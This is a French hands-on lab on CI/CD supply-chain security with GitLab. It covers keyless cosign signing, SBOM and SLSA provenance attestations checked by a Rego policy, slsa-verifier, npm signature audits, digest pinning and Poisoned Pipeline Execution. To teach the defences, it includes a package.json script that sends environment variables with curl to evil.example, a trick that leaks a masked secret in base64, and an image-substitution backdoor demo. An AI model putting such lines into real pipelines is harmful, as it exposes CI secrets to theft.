

# Partie 2 : Sécurité du pipeline et de la chaîne d'approvisionnement (étapes 10 à 13)

> **Scénario à réaliser en autonomie.** Vous partez du pipeline obtenu à la fin de la
> [partie 1](partie-1-image-sbom.md) : l'image est construite, publiée par digest, son SBOM est
> généré et Grype bloque les CVE critiques. Les blocs `# TODO` sont à compléter. La correction se
> trouve dans [`solution/.gitlab-ci.yml`](solution/.gitlab-ci.yml).
>
> Dans la partie 1, vous avez été guidé pas à pas pour acquérir les bases. Cette partie vous
> laisse plus d'autonomie : moins de code à trous, davantage de renvois vers la documentation.

## ✨ Objectifs

- **Signer** l'image sans gérer de clé (cosign *keyless* + identité OIDC du job GitLab), puis **vérifier** la signature.
- Attacher à l'image des **attestations signées** : son SBOM et sa **provenance SLSA**. Les vérifier avec une **politique** (Rego).
- Vérifier ce que **le pipeline consomme** : la provenance SLSA d'un outil avec `slsa-verifier`, les signatures npm, les images épinglées par digest.
- Comprendre l'**empoisonnement de pipeline** (*Poisoned Pipeline Execution*, PPE), le reproduire sur votre projet, puis s'en protéger.

## 🧭 Le fil rouge : de quoi a-t-on peur ?

Votre pipeline produit maintenant une image analysée. Entre le moment où elle est analysée et le
moment où elle est déployée, plusieurs choses peuvent mal tourner :

| Menace | Exemple réel | Réponse dans ce lab |
|---|---|---|
| L'image est **remplacée** dans le registry | un jeton d'écriture volé permet de pousser une image piégée sous le même tag | signature + vérification par digest (étape 10) |
| On ne sait plus **d'où vient** une image | une image de prod construite « à la main » sur un poste de dev | provenance SLSA attestée (étape 11) |
| Un **outil** du pipeline est piégé | 2021 : le script `bash uploader` de Codecov, modifié, a exfiltré les variables CI de milliers de projets. 2025 : les tags de l'action GitHub `tj-actions/changed-files` ont été redirigés vers un commit malveillant. | vérifier la provenance des outils, épingler par digest (étape 12) |
| Une **dépendance** exécute du code à l'installation | 2025 : le ver npm *Shai-Hulud* se propageait via des scripts `postinstall` et volait les jetons des développeurs | `npm ci --ignore-scripts`, signatures npm (étapes 12 et 13) |
| Le **pipeline lui-même** est détourné | une merge request modifie `.gitlab-ci.yml` ou `package.json` pour lire les secrets | PPE et ses protections (étape 13) |

> 📖 [OWASP : Top 10 CI/CD Security Risks](https://owasp.org/www-project-top-10-ci-cd-security-risks/) · [SLSA : les menaces de la chaîne d'approvisionnement](https://slsa.dev/spec/v1.0/threats-overview)

---

## ✍️ Étape 10 : Signer l'image, sans clé

### 10.1 Pourquoi signer, alors qu'on a déjà le digest ?

Le digest garantit que le **contenu** n'a pas changé. Il ne dit pas **qui** a produit ce contenu.
Si un attaquant pousse sa propre image, elle aura son propre digest, parfaitement valide. Ce qu'il
faut prouver, c'est donc : *« ce digest a été produit par le pipeline de mon projet, sur la
branche `main` »*. C'est le rôle d'une signature.

### 10.2 Deux façons de signer avec cosign

[Cosign](https://docs.sigstore.dev/cosign/signing/overview/) (projet Sigstore) signe des images
OCI et stocke la signature **dans le registry, à côté de l'image**. Il fonctionne selon deux
modes :

| | **Avec clé** (*key-based*) | **Sans clé** (*keyless*) |
|---|---|---|
| Principe | une paire de clés `cosign.key` / `cosign.pub` générée une fois | un certificat **éphémère** (10 minutes) délivré pour **l'identité du job** |
| Secret à protéger | la clé privée, pour toujours (variable CI, coffre-fort…) | **aucun** |
| Ce que prouve la vérification | « signé par le détenteur de cette clé » | « signé par le pipeline `<projet>//.gitlab-ci.yml` sur `refs/heads/main` » |
| Si le secret fuit | il faut révoquer la clé et re-signer tout ce qu'elle a signé | rien à révoquer : le certificat a déjà expiré |
| Quand l'utiliser | environnement isolé, sans accès à l'instance publique Sigstore | **par défaut** sur gitlab.com |

En mode keyless, la signature se déroule ainsi :



Le point clé est le **jeton OIDC** : GitLab l'émet pour un job précis, et il décrit ce job (projet,
branche, fichier de pipeline). Personne ne peut obtenir un certificat « au nom de `main` » depuis
une autre branche. On s'en servira à l'étape 13.

> 📖 [GitLab : signature Sigstore keyless](https://docs.gitlab.com/ci/yaml/signing_examples/) · [GitLab : `id_tokens`](https://docs.gitlab.com/ci/yaml/#id_tokens) · [Sigstore : fonctionnement](https://docs.sigstore.dev/about/overview/)

### 10.3 Le job de signature

Ajoutez les stages `sign` et `verify` à la fin de `stages:`. Le job de signature tourne seulement
sur la branche par défaut, et seulement après la porte Grype : **on ne signe que ce qui a été
validé**.

L'image cosign officielle n'a pas de shell. Sa variante `-dev` en ajoute un (busybox), et
`cosign` y est dans le `PATH`.

🚧 **À compléter :**

```yaml
sign-image:
  stage: sign
  image:
    name: ghcr.io/sigstore/cosign/cosign:v3.1.3-dev
    entrypoint: [""]
  needs: # TODO : le build (pour IMAGE_REF), le SBOM (pour l'étape 11) et la porte grype-sbom
  cache: []
  rules:
    - *no-schedule
    # TODO : uniquement sur la branche par défaut
  id_tokens:
    # TODO : un jeton nommé SIGSTORE_ID_TOKEN, dont l'audience (aud) vaut "sigstore"
    #        cosign lit automatiquement cette variable d'environnement
  script:
    - echo "$CI_REGISTRY_PASSWORD" | cosign login "$CI_REGISTRY" -u "$CI_REGISTRY_USER" --password-stdin
    # TODO : signer l'image PAR SON DIGEST, sans demande de confirmation interactive (--yes)
```

> 📖 [cosign : `sign`](https://docs.sigstore.dev/cosign/signing/signing_with_containers/)

> 💡 **Tester :** poussez sur `main`. Le job se termine sans erreur après `Signing artifact...`.
> La signature est stockée dans le registry comme un artefact OCI rattaché à l'image (un
> *referrer*, sans tag), donc l'interface **Deploy > Container registry** ne l'affiche pas
> forcément. La vraie preuve se fait à l'étape suivante, en vérifiant cette signature.

### 10.4 Vérifier la signature

Vérifier, c'est rejouer la signature à l'envers, mais **en exigeant une identité précise**. Une
signature valide faite par *n'importe qui* ne prouve rien. Avec GitLab, l'identité du certificat
suit ce format :

```
https://gitlab.com/<groupe>/<projet>//.gitlab-ci.yml@refs/heads/main
└──────────── projet ─────────────┘└ fichier CI ┘ └─── ref ───┘
                                  ^^ double slash obligatoire
```

🚧 **À compléter** (même image, même `rules`) :

```yaml
verify-image:
  stage: verify
  image:
    name: ghcr.io/sigstore/cosign/cosign:v3.1.3-dev
    entrypoint: [""]
  needs: [docker-build, sign-image]
  cache: []
  rules:
    - *no-schedule
    - if: $CI_COMMIT_BRANCH == $CI_DEFAULT_BRANCH
  variables:
    # TODO : construire l'identité attendue avec ${CI_PROJECT_URL} et ${CI_DEFAULT_BRANCH}
    SIGNER_IDENTITY: ""
  script:
    - echo "$CI_REGISTRY_PASSWORD" | cosign login "$CI_REGISTRY" -u "$CI_REGISTRY_USER" --password-stdin
    # TODO : cosign verify avec --certificate-identity et --certificate-oidc-issuer (= ${CI_SERVER_URL})
```

> 📖 [cosign : vérifier une signature keyless](https://docs.sigstore.dev/cosign/verifying/verify/#keyless-verification-using-openid-connect)

> 💡 **Tester :** le job affiche la liste des contrôles effectués :
>
> ```
> Verification for registry.gitlab.com/<groupe>/<projet>@sha256:... --
> The following checks were performed on each of these signatures:
>   - The cosign claims were validated
>   - Existence of the claims in the transparency log was verified offline
>   - The code-signing certificate was verified using trusted certificate authority certificates
> ```
>
> Modifiez maintenant `SIGNER_IDENTITY` pour viser `refs/heads/dev` et relancez. La vérification
> **échoue**, car aucune signature ne correspond à cette identité. Le message cite l'identité
> réellement trouvée dans le certificat :
>
> ```
> failed to verify certificate identity: no matching CertificateIdentity found, last error: expected SAN value "...@refs/heads/dev", got "...@refs/heads/main"
> ```
>
> Restaurez ensuite la bonne valeur.

### 10.5 🧪 Manip en local : la substitution d'image

Cette expérience se fait en local, avec Docker, un registry jetable et le mode **avec clé**, pour
voir les deux modes de signature. Elle montre concrètement pourquoi on vérifie **par digest**.
Lancez les commandes depuis un clone local de votre projet (`git clone` puis `cd` dans le
dossier), puisque `docker build .` utilise votre `Dockerfile`. Le registry local ne demande aucun
identifiant.

On démarre d'abord un registry local et on y pousse une image signée :

```bash
docker network create labnet
docker run -d --rm --name registry --network labnet -p 127.0.0.1:5000:5000 registry:2
cosign() { docker run --rm --network labnet -e COSIGN_PASSWORD=labpass -v "$PWD:/w" -w /w ghcr.io/sigstore/cosign/cosign:v3.1.3 "$@"; }

docker build -t 127.0.0.1:5000/demo/app:1.0.0 . && docker push 127.0.0.1:5000/demo/app:1.0.0
cosign generate-key-pair                                   # -> cosign.key / cosign.pub (mot de passe : labpass)
cosign sign --yes --key cosign.key --allow-http-registry registry:5000/demo/app:1.0.0
cosign verify --key cosign.pub --allow-http-registry registry:5000/demo/app:1.0.0
# -> The following checks were performed on each of these signatures: - The cosign claims were validated
```

Le conteneur cosign joint le registry par son nom sur le réseau Docker (`registry:5000`), d'où
cette adresse dans les commandes `cosign`. `--allow-http-registry` est nécessaire parce que ce
registry local n'utilise pas HTTPS.

Jouons maintenant l'attaquant : on pousse une **autre** image sous le **même** tag.

```bash
printf 'FROM 127.0.0.1:5000/demo/app:1.0.0\nUSER root\nRUN echo pwned > /app/backdoor.txt\nUSER 1000:1000\n' \
  | docker build -t 127.0.0.1:5000/demo/app:1.0.0 -
docker push 127.0.0.1:5000/demo/app:1.0.0
cosign verify --key cosign.pub --allow-http-registry registry:5000/demo/app:1.0.0
# -> Error: no signatures found
```

Le tag pointe désormais sur l'image piégée, qui n'est pas signée : la vérification par tag la
**rejette**. Vérifiez aussi qu'une **autre** clé publique est refusée (générez une seconde paire
dans un autre dossier). Vous obtenez `failed to verify log inclusion`. Pour finir, faites le
ménage :

```bash
docker rm -f registry && docker network rm labnet && rm -f cosign.key cosign.pub
```

> ⚠️ **Ne commitez jamais `cosign.key`**, même protégée par un mot de passe : ajoutez-la à votre
> `.gitignore`. C'est l'argument principal du mode keyless : il n'y a tout simplement pas de clé
> à perdre.
>
> ℹ️ Avec cosign v3, l'ancien drapeau `--tlog-upload=false` (signer sans inscrire dans Rekor) est
> **obsolète** et refusé. Il faut désormais un fichier `--signing-config`. Par défaut, même une
> signature avec clé est donc inscrite dans le journal public.

---

## 📜 Étape 11 : Attester le SBOM et la provenance

### 11.1 Signature ou attestation ?

Une **signature** dit « j'approuve ce digest ». Une **attestation** dit « j'affirme *ceci* à propos
de ce digest ». C'est une déclaration signée au format [in-toto](https://in-toto.io/), qui contient
trois éléments :

```json
{
  "_type": "https://in-toto.io/Statement/v1",
  "subject": [{ "name": "registry.gitlab.com/...", "digest": { "sha256": "b27b23b5..." } }],
  "predicateType": "https://cyclonedx.org/bom",
  "predicate": { "...": "le contenu affirmé : ici, le SBOM entier" }
}
```

Le `subject` est l'image désignée par son digest. Le `predicateType` indique le *type* de
l'affirmation. Le `predicate` contient l'affirmation elle-même. Avec `cosign attest`, l'option
`--type` choisit le `predicateType` :

| `--type` cosign | `predicateType` | Affirmation |
|---|---|---|
| `cyclonedx` | `https://cyclonedx.org/bom` | « voici la liste des composants de cette image » |
| `slsaprovenance1` | `https://slsa.dev/provenance/v1` | « voici comment, où et à partir de quoi cette image a été construite » |
| `vuln` | `https://cosign.sigstore.dev/attestation/vuln/v1` | « voici le résultat du scan de vulnérabilités » |

> 📖 [cosign : attestations](https://docs.sigstore.dev/cosign/verifying/attestation/) · [in-toto : format des déclarations](https://github.com/in-toto/attestation/blob/main/spec/v1/statement.md)

### 11.2 Attester le SBOM

C'est la suite logique de la partie 1. Le SBOM n'est plus un simple artefact de job, qui expire
et que n'importe quel mainteneur peut remplacer : il est **lié cryptographiquement** au digest de
l'image et signé par l'identité du pipeline.

🚧 **À compléter**, à la fin du `script:` de `sign-image` :

```yaml
    # TODO : cosign attest, type cyclonedx, prédicat = sbom.cdx.json, sur $IMAGE_REF, sans confirmation
```

### 11.3 La provenance SLSA

[SLSA](https://slsa.dev/) (*Supply-chain Levels for Software Artifacts*, prononcé « salsa ») est
un cadre qui gradue la confiance qu'on peut accorder à un **processus de build** :

| Niveau (piste Build) | Exigence | Qu'est-ce que ça empêche ? |
|---|---|---|
| **L0** | rien | rien |
| **L1** | une **provenance** existe : un document décrit comment l'artefact a été construit | les erreurs : on sait d'où vient l'artefact |
| **L2** | build sur une **plateforme hébergée**, provenance **signée** par cette plateforme | la falsification *après* le build |
| **L3** | plateforme **durcie** : les étapes du build ne peuvent ni lire la clé de signature ni influencer la provenance | la falsification *pendant* le build, même par un job compromis |

Construisons notre provenance. Le job `sign-image` génère un fichier `provenance.json` (le
*predicate*) à partir des variables prédéfinies de GitLab, en suivant la structure du
[format de provenance SLSA v1 de GitLab](https://docs.gitlab.com/ci/pipeline_security/slsa/level_3/provenance_v1/).
Le bloc vous est donné : lisez-le pour repérer la *source* (projet + commit), le *point d'entrée*
(le fichier CI), la *ref* et le *builder* (le runner).

```yaml
    - |
      cat > provenance.json <<JSON
      {
        "buildDefinition": {
          "buildType": "https://gitlab.com/gitlab-org/gitlab-runner/-/blob/v${CI_RUNNER_VERSION}/PROVENANCE.md",
          "externalParameters": {
            "source": "${CI_PROJECT_URL}",
            "entryPoint": "${CI_CONFIG_PATH}",
            "ref": "${CI_COMMIT_REF_NAME}",
            "variables": {
              "CI_PIPELINE_ID": "${CI_PIPELINE_ID}",
              "CI_PIPELINE_URL": "${CI_PIPELINE_URL}",
              "CI_PIPELINE_SOURCE": "${CI_PIPELINE_SOURCE}",
              "BUILD_JOB_ID": "${BUILD_JOB_ID}"
            }
          },
          "resolvedDependencies": [
            { "uri": "git+${CI_PROJECT_URL}@${CI_COMMIT_REF_NAME}", "digest": { "gitCommit": "${CI_COMMIT_SHA}" } }
          ]
        },
        "runDetails": {
          "builder": { "id": "${CI_SERVER_URL}/${CI_PROJECT_PATH}/-/runners/${CI_RUNNER_ID}", "version": { "gitlab-runner": "${CI_RUNNER_VERSION}" } },
          "metadata": { "invocationId": "${CI_JOB_URL}", "startedOn": "${CI_JOB_STARTED_AT}" }
        }
      }
      JSON
    # TODO : cosign attest, type slsaprovenance1, prédicat = provenance.json, sur $IMAGE_REF
```

Pourquoi `<<JSON` sans apostrophes ? Avec `<<'JSON'`, le shell recopierait le texte tel quel. Sans
apostrophes, il **remplace** chaque `${CI_...}` par sa valeur. Et pourquoi `JSON` se retrouve-t-il
en début de ligne, alors qu'il est indenté dans le YAML ? Le bloc `- |` retire l'indentation
commune de toutes ses lignes avant de passer le script au shell. Ajoutez enfin
`provenance.json` aux `artifacts:` du job, pour pouvoir le relire.

> ⚖️ **Soyons honnêtes sur le niveau atteint.** Notre provenance est construite *par le même job*
> que la signature, et ce job exécute un script que nous contrôlons. Un `.gitlab-ci.yml` modifié
> pourrait donc y écrire n'importe quoi. Ce qui nous protège, c'est que le certificat Sigstore, lui,
> **ne peut pas mentir** sur le projet et la ref : un mensonge dans le JSON reste attribuable. On se
> situe donc vers **SLSA Build L2**. Le niveau **L3** exige que la provenance soit produite *hors de
> portée* des jobs utilisateur :
>
> - sur **GitLab**, c'est le rôle des [attestations SLSA L3](https://docs.gitlab.com/ci/pipeline_security/slsa/level_3/) (variable `ATTEST_CONTAINER_IMAGES`, vérification avec `glab attestation verify`). En octobre 2026, cette fonctionnalité est encore **expérimentale**, réservée à **GitLab Ultimate** sur gitlab.com, aux projets publics, et activée par un *feature flag* ;
> - sur **GitHub**, c'est le rôle du [`slsa-github-generator`](https://github.com/slsa-framework/slsa-github-generator). Ses provenances se vérifient avec **`slsa-verifier`**, que vous utiliserez côté *consommateur* à l'étape 12.

### 11.4 Vérifier avec une politique

Vérifier la signature d'une attestation prouve **qui** l'a écrite. Une **politique** vérifie en
plus **ce qu'elle affirme**. `cosign verify-attestation --policy` évalue une règle
[Rego](https://www.openpolicyagent.org/docs/latest/policy-language/) (le langage d'Open Policy
Agent) sur l'attestation. Il suffit de trois notions de Rego pour ce lab :

| Notion | Signification |
|---|---|
| `input` | la déclaration in-toto vérifiée. `input.predicate` correspond à votre `provenance.json`, et on descend dans le JSON avec des points : `input.predicate.buildDefinition.externalParameters.ref` |
| `allow { ... }` | `allow` vaut vrai si **toutes** les lignes du bloc sont vraies (un ET logique) ; `default allow = false` le met à faux sinon. cosign refuse l'attestation si `allow` est faux |
| `ensemble[valeur]` | vrai si `valeur` appartient à l'ensemble (`{"push", "web"}`) |

> ⚠️ Écrivez `allow { ... }` comme dans le squelette ci-dessous : c'est la syntaxe validée avec
> cosign v3.1.3. La documentation OPA récente montre aussi la forme `allow if { ... }` (Rego v1) ;
> ne mélangez pas les deux dans un même fichier.

🚧 **À compléter** : créez `policy/provenance.rego` à la racine de votre projet :

```rego
package signature

default allow = false

allowed_sources := {"push", "web"}

allow {
  input.predicateType == "https://slsa.dev/provenance/v1"
  # TODO : la source (externalParameters.source) doit être l'URL de VOTRE projet
  # TODO : la ref (externalParameters.ref) doit être "main"
  # TODO : CI_PIPELINE_SOURCE doit appartenir à allowed_sources
  #        (syntaxe Rego : allowed_sources[<valeur>] est vrai si la valeur est dans l'ensemble)
}
```

Complétez ensuite `verify-image` avec deux vérifications d'attestation. Elles prennent les mêmes
options d'identité que `cosign verify`. Leur sortie, très longue (tout le SBOM encodé en base64),
est redirigée vers `/dev/null` :

```yaml
    # TODO : cosign verify-attestation --type cyclonedx ... > /dev/null
    # TODO : cosign verify-attestation --type slsaprovenance1 --policy policy/provenance.rego ... > /dev/null
```

> 📖 [cosign : vérifier une attestation avec une politique](https://docs.sigstore.dev/cosign/verifying/attestation/#validate-in-toto-attestations)

> 💡 **Tester :** le job `verify-image` affiche `will be validating against Rego policies:
> [policy/provenance.rego]` puis `The cosign claims were validated`. Changez `"main"` en
> `"release"` dans la politique, poussez : le job échoue avec
>
> ```
> - expression value, false, is not true
> Error: 1 validation errors occurred
> ```
>
> Restaurez ensuite la valeur `"main"`.
>
> En local (Docker suffit), `cosign tree` montre tout ce qui est attaché à l'image :
>
> ```
> 📦 Supply Chain Security Related artifacts for an image: registry.gitlab.com/...@sha256:...
> └── 🔗 https://cyclonedx.org/bom artifacts via OCI referrer: ...
> └── 🔗 https://slsa.dev/provenance/v1 artifacts via OCI referrer: ...
> └── 🔗 https://sigstore.dev/cosign/sign/v1 artifacts via OCI referrer: ...
> ```

> 💡 **Amélioration possible du re-scan nocturne (étape 9.7).** Plutôt que de télécharger l'artefact
> du job, qu'un mainteneur peut supprimer ou remplacer, récupérez le SBOM **depuis l'attestation
> vérifiée** : `cosign verify-attestation --type cyclonedx ... | jq -r .payload | base64 -d | jq .predicate > sbom.cdx.json`.
> Vous re-scannez alors un inventaire dont l'origine est prouvée. (À adapter : aucune des images
> utilisées ici ne contient à la fois `cosign`, `jq` et `grype`. Il faut deux jobs, ou une image
> construite pour l'occasion.)

---

## 🔎 Étape 12 : Vérifier ce que le pipeline consomme

Jusqu'ici, on a protégé ce que le pipeline **produit**. Mais le pipeline **consomme** aussi beaucoup
de choses : une dizaine d'images Docker, des binaires téléchargés, des paquets npm. Chacun est une
porte d'entrée. Relisez votre `.gitlab-ci.yml` actuel avec ce regard :

| Ligne de votre pipeline | Problème |
|---|---|
| `image: alpine:edge` + `apk add osv-scanner` | `edge` = la branche de développement d'Alpine ; la version d'OSV change sans prévenir |
| `image: sonarsource/sonar-scanner-cli:latest` | `latest` peut désigner n'importe quelle image demain |
| `npm ci` dans `build-app` | exécute les scripts `postinstall` de **toutes** les dépendances, transitives comprises |
| `image: node:24.22.1-trixie-slim` | mieux, mais un **tag** reste déplaçable (étape 8.3) |

### 12.1 Vérifier la provenance d'un outil avec `slsa-verifier`

OSV-Scanner est publié sur GitHub avec une **provenance SLSA Build L3**. C'est le fichier
`multiple.intoto.jsonl` de chaque release, produit par le `slsa-github-generator`.
[**`slsa-verifier`**](https://github.com/slsa-framework/slsa-verifier) vérifie qu'un binaire
téléchargé correspond bien à cette provenance :

| Ce que `slsa-verifier verify-artifact` contrôle | Option |
|---|---|
| la provenance est signée par un **builder SLSA de confiance** (et non par un job quelconque) | *(automatique)* |
| le **hash du binaire** figure dans les sujets de la provenance | le fichier passé en argument |
| le build vient du **bon dépôt** | `--source-uri github.com/google/osv-scanner` |
| … et du **bon tag** | `--source-tag v2.6.0` |

Il reste un problème de « l'œuf et la poule » : qui vérifie `slsa-verifier` lui-même ? Son README
publie l'empreinte SHA-256 de chaque version dans
[`SHA256SUM.md`](https://github.com/slsa-framework/slsa-verifier/blob/main/SHA256SUM.md). On
vérifie donc ce **premier maillon** par son empreinte, épinglée dans le pipeline.

🚧 **À compléter** : remplacez votre job `osv-sbom` (étape 9.4) par une version qui n'utilise plus
`alpine:edge` :

```yaml
osv-sbom:
  stage: scan-image
  image: alpine:3.22                # version stable épinglée (plus de "edge")
  needs: [sbom-image]
  allow_failure: true
  cache: []
  rules:
    - *no-schedule
    - when: on_success
  variables:
    SLSA_VERIFIER_VERSION: "v2.7.1"
    SLSA_VERIFIER_SHA256: "946dbec729094195e88ef78e1734324a27869f03e2c6bd2f61cbc06bd5350339"  # linux-amd64
    OSV_VERSION: "v2.6.0"
  before_script:
    - apk add --no-cache curl
    # 1) slsa-verifier, vérifié par empreinte
    - curl -sSfL -o /usr/local/bin/slsa-verifier "https://github.com/slsa-framework/slsa-verifier/releases/download/${SLSA_VERIFIER_VERSION}/slsa-verifier-linux-amd64"
    - # TODO : vérifier l'empreinte avec sha256sum -c  (format attendu : "<empreinte>  <fichier>")
    - chmod +x /usr/local/bin/slsa-verifier
    # 2) osv-scanner et sa provenance
    - curl -sSfL -o /usr/local/bin/osv-scanner "https://github.com/google/osv-scanner/releases/download/${OSV_VERSION}/osv-scanner_linux_amd64"
    - curl -sSfL -o /tmp/osv.intoto.jsonl "https://github.com/google/osv-scanner/releases/download/${OSV_VERSION}/multiple.intoto.jsonl"
    - # TODO : slsa-verifier verify-artifact ... (fichier, --provenance-path, --source-uri, --source-tag)
    - chmod +x /usr/local/bin/osv-scanner
  script:
    - osv-scanner scan source -L sbom.cdx.json --format html --output-file osv-sbom.html
  artifacts:
    when: always
    paths: [osv-sbom.html]
```

> 📖 [slsa-verifier : `verify-artifact`](https://github.com/slsa-framework/slsa-verifier#artifacts) · [releases OSV-Scanner](https://github.com/google/osv-scanner/releases)

> 💡 **Tester :** le log affiche
>
> ```
> /usr/local/bin/slsa-verifier: OK
> Verified build using builder "https://github.com/slsa-framework/slsa-github-generator/.github/workflows/generator_generic_slsa3.yml@refs/tags/v2.1.0" at commit e840a6e8adb14b7777c78e26cfbf6e2abc1d1fc6
> Verifying artifact /usr/local/bin/osv-scanner: PASSED
> PASSED: SLSA verification passed
> ```
>
> 🧪 **Simulez une altération du binaire.** Ajoutez temporairement `- echo "evil" >> /usr/local/bin/osv-scanner`
> juste **avant** la ligne `slsa-verifier`. Le job échoue avec :
>
> ```
> FAILED: SLSA verification failed: expected hash '26997d1d...' not found: artifact hash does not match provenance subject
> ```
>
> Le binaire n'est jamais exécuté. Retirez la ligne `echo`, puis changez `--source-tag` en
> `v2.5.0`. La vérification échoue également, car on ne peut pas faire passer un binaire pour
> une autre version :
>
> ```
> FAILED: SLSA verification failed: expected tag 'v2.5.0', got 'v2.6.0': tag used to generate the binary does not match provenance
> ```

### 12.2 Vérifier les signatures des paquets npm

Le registry npm signe chaque paquet, et certains paquets publient en plus une **attestation de
provenance**, comme notre image. `npm audit signatures` vérifie les deux pour tout votre
`node_modules`.

🚧 **À compléter** : dans `build-app`, ajoutez la commande juste après `npm ci`.

> 📖 [npm : `audit signatures`](https://docs.npmjs.com/cli/commands/npm-audit#audit-signatures) · [npm : provenance](https://docs.npmjs.com/generating-provenance-statements)

> 💡 **Tester :** le log de `build-app` affiche
>
> ```
> audited 281 packages in 2s
> 281 packages have verified registry signatures
> 5 packages have verified attestations
> ```
>
> Toutes les signatures sont valides, mais seuls **5 paquets sur 281** publient une provenance.
> C'est l'état réel de l'écosystème en 2026 : l'adoption progresse, sans être générale. (Avec
> l'ancien lockfile de l'étape 6, on obtenait 277 paquets et une seule attestation : les versions
> récentes d'`express` et de ses dépendances publient davantage de provenances.)

### 12.3 Épingler les images par digest

Comme pour votre propre image (étape 8.3), un tag d'image tierce peut être redirigé. On peut
ajouter le digest **en plus** du tag : le tag reste lisible pour les humains, et c'est le digest
qui fait foi.

```yaml
image: node:24.22.1-trixie-slim@sha256:89c5244bc22a9bc3287d89ebc7e49b9cb5bb84cd40e6175ac3421d5a9f68b95a
```

Pour obtenir le digest d'une image multi-architecture, il faut celui de l'**index** (la liste des
variantes par architecture). Sans Docker, ouvrez la page du tag sur Docker Hub (onglet *Tags*) :
c'est la valeur **Index digest**. Avec Docker :

```bash
docker buildx imagetools inspect node:24.22.1-trixie-slim --format '{{json .Manifest.Digest}}'
# -> "sha256:89c5244bc22a9bc3287d89ebc7e49b9cb5bb84cd40e6175ac3421d5a9f68b95a"
```

🚧 **À vous de jouer :**

1. Épinglez par digest l'image par défaut (`node`), puis l'image du job `docker-build` **et** son service. Les deux ont le même digest : dans l'image officielle, le tag `docker:<version>` désigne déjà la variante dind (`docker:28.3.2` et `docker:28.3.2-dind` sont deux noms de la même image).
   Le `FROM` de votre Dockerfile peut être épinglé de la même façon. C'est même l'image qui part en production. Pensez seulement que Renovate devra le mettre à jour lui aussi.
2. Remplacez `sonarsource/sonar-scanner-cli:latest` par une version explicite, au moins vieille de deux semaines (par exemple `12.2.0.4256_8.1.0`), puis épinglez-la par digest.
3. Supprimez l'ancien job `osv-scanner` basé sur `alpine:edge`, ou faites-le télécharger OSV comme `osv-sbom`.

> ⚖️ **Épingler, c'est figer… y compris les failles.** Un digest ne reçoit plus aucun correctif.
> L'épinglage n'est tenable qu'avec un outil qui propose les mises à jour sous forme de merge
> requests : [Renovate](https://docs.renovatebot.com/docker/#digest-pinning) le fait pour les
> images, les paquets npm et même les variables de votre `.gitlab-ci.yml`. Configurez aussi un
> **délai de carence** (`minimumReleaseAge`, par exemple 14 jours) : la plupart des paquets
> malveillants sont détectés et retirés dans les jours qui suivent leur publication. C'est pour
> cette raison que toutes les versions de ce lab ont au moins deux semaines.

---

## ☠️ Étape 13 : L'empoisonnement de pipeline (PPE)

### 13.1 Le principe

Un pipeline CI/CD est un **programme qui exécute le contenu du dépôt** avec des privilèges élevés :
secrets, jeton du registry, accès réseau, et bientôt signature. Quiconque peut modifier ce que le
pipeline exécute peut donc emprunter ces privilèges. L'OWASP classe ce risque en n°4 de son Top 10
CI/CD (*CICD-SEC-4 : Poisoned Pipeline Execution*), sous trois formes :

| Forme | L'attaquant modifie… | Exemple dans *votre* projet |
|---|---|---|
| **Directe** (D-PPE) | le fichier de pipeline lui-même | une branche où `.gitlab-ci.yml` contient `- env \| base64` |
| **Indirecte** (I-PPE) | un fichier **appelé** par le pipeline, sans toucher au `.gitlab-ci.yml` | `package.json` : `"test": "mocha && curl -d @/proc/self/environ https://evil.example"` ; une instruction `RUN` du `Dockerfile` ; `sonar-project.properties` |
| **Publique** (3PE) | le pipeline, depuis un **fork**, via une merge request | un inconnu ouvre une MR sur un projet public |

La forme **indirecte** est la plus sournoise. Votre `.gitlab-ci.yml` exécute `npm run test`, mais
c'est `package.json` qui décide de ce que fait cette commande, et un relecteur concentré sur le
code de l'application ne relit pas forcément ce fichier.

> 📖 [OWASP CICD-SEC-4 : Poisoned Pipeline Execution](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-04-Poisoned-Pipeline-Execution)

### 13.2 🧪 Manip : un secret « masqué » qui fuit

Cette expérience reproduit une attaque I-PPE sur votre projet. Rien ne sort de GitLab : on affiche
simplement le secret dans les logs de votre propre job.

**1. Créez un secret.** Dans **Settings > CI/CD > Variables > Add variable**, saisissez la clé
`DEMO_SECRET` et la valeur `SuperSecret-2026`. Choisissez la visibilité **Masked**, et
**décochez** la case **Protect variable** (cochée par défaut). Ce réglage est fréquent : « masqué »
donne l'impression d'être protégé.

**2. Jouez l'attaquant.** Créez une branche `feature/ppe` et modifiez **uniquement** le script de
test dans `package.json` :

```json
"test": "mocha && echo \"leak: $(printf %s \"$DEMO_SECRET\" | base64)\""
```

**3. Poussez la branche** et ouvrez le log de `unit-test-job` :

```
  1 passing (2ms)
leak: U3VwZXJTZWNyZXQtMjAyNg==
```

Les tests passent, et le secret s'affiche **encodé en base64**. Le masquage ne cache que la valeur
*exacte* : la moindre transformation (base64, inversion, découpage) le contourne. En local, un
`echo U3VwZXJTZWNyZXQtMjAyNg== | base64 -d` rend `SuperSecret-2026`. Un vrai attaquant enverrait la
valeur vers son serveur au lieu de l'afficher.

**4. Protégez.** Éditez la variable et cochez **Protect variable**. Relancez le pipeline de
`feature/ppe` : la ligne devient `leak: `, vide. Une variable protégée n'est transmise qu'aux
pipelines des **branches et tags protégés**, et `feature/ppe` n'en fait pas partie.

Gardez la branche `feature/ppe` et la variable `DEMO_SECRET` : elles resservent aux sections 13.3
et 13.4. Le ménage se fait à la fin de l'étape.

> ⚖️ **Le compromis.** Votre `SONAR_TOKEN` sert aussi aux analyses des merge requests (règle
> `merge_request_event` du job `sonarcloud-check`). Si vous le protégez, ces analyses de MR
> n'auront plus de jeton. Il faut alors choisir : soit un jeton **à droits minimaux** (analyse
> seule) non protégé, soit l'analyse uniquement sur `main`. Il n'y a pas de bonne réponse
> universelle, seulement un risque à évaluer et à assumer.

### 13.3 🧪 Et la signature ? Le certificat ne ment pas

